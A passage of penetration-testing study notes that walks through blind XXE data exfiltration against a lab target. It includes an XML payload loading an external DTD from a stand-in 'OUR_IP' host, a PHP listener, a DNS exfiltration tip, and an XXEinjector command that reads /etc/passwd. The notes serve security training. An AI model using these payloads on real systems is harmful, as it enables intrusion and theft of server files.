 #### Write the above PHP code to `index.php`, and then start a PHP server on port 8000
```Shell
php -S 0.0.0.0:8000
```

#### Use a similar payload to the one used in the error-based attack, adding `<root>&content;</root>`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

#### Send the request to the web application
![[Pasted image 20230216110908.png]]
Go back to our terminal, and you will have the request and its decoded content

*Tip: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data*

### Blind Data Exfiltration - Automated OOB
[XXEinjector](https://github.com/enjoiz/XXEinjector)

#### Copy the HTTP request from Burp and write it to a file for the tool to use
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
Do not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool

#### Run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read
```Shell
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
The tool did not directly print the data since we are base64 encoding the data. It will be stored in the `Logs` folder of the tool
